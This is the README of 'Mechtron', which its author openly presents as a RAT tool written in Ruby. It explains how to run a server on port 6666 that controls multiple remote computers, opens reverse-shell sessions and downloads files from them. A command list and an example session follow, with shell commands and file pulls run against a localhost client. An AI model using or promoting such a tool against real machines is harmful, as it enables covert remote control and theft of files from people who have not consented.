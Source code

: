 # Mechtron
A RAT tool. Mechtron allows you to control multiple remote computers and download files from them.

Mechtron runs on port 6666. It can handle multiple clients, but one session at a time. Meaning you can have one reverse shell instance at a time. I plan on publishing a debian package, but for now you'll have to deal with the source folders.

## Commands
clients<br>
session IP<br>
get IP FILE_PATH FORMAT - formats are binary & text<br>
commands<br>

## Instructions
***Client -*** ```./mechtron.rb -c IP```<br>
***Server -*** ```./mechtron.rb -s```<br>
***Help -*** ```./mechtron.rb -h```

## Example Usage

### Server
```
chmod +x mechtron.rb
./mechtron -s
starting server on port 6666
127.0.0.1 joined
session 127.0.0.1
session started with 127.0.0.1
$ whoami
chrisbasinger
$ which ruby
/bin/ruby
$ exit
closing session
get 127.0.0.1 /home/chrisbasinger/dos.sh text
Starting download
download finished
get 127.0.0.1 /home/chrisbasinger/picture.jpg binary
exit
exiting the server..

Process finished with exit code 0

```

### Client
```
chmod +x rat.rb
sudo ./mechtron -c 127.0.0.1
```
